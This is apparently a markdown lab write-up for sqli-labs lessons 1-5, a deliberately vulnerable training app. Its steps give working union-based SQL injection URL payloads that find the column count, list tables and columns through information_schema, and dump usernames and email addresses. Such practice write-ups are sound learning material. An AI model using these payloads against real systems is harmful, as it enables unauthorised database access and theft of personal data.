 __sqli-labs lesson ```1-5```__

__desc__

 In this challenge we have to dump all the details from the database 

 
 __solution__
  first we have to pass the __```id```__ parameter and pass a numeric value,the we have to fuzz through 
  the id paramete and find the sqli
  when we pass ```'``` we can break the qurey and by adding ```--+``` after we can complete the query
  the we can find the number of table using ```order by``` up to some number
  * ```/?id=-1%27%20order by ```
  we can find the name of tables using:
  
 * ```/?id=-1%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+```
  we can find the column of each table:
  
 * ```/Less-2/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27uagents%27--+```
 we can find the data of each column of the table by:
 
 *```Less-2/?id=%27-1%27%20union%20select%201,group_concat(username),3%20from%20users--+```
we can find the data of column of the table by:
*```Less-3/?id=l%27)union%20select%201,group_concat(id),group_concat(email_id)%20from%20emails--+```
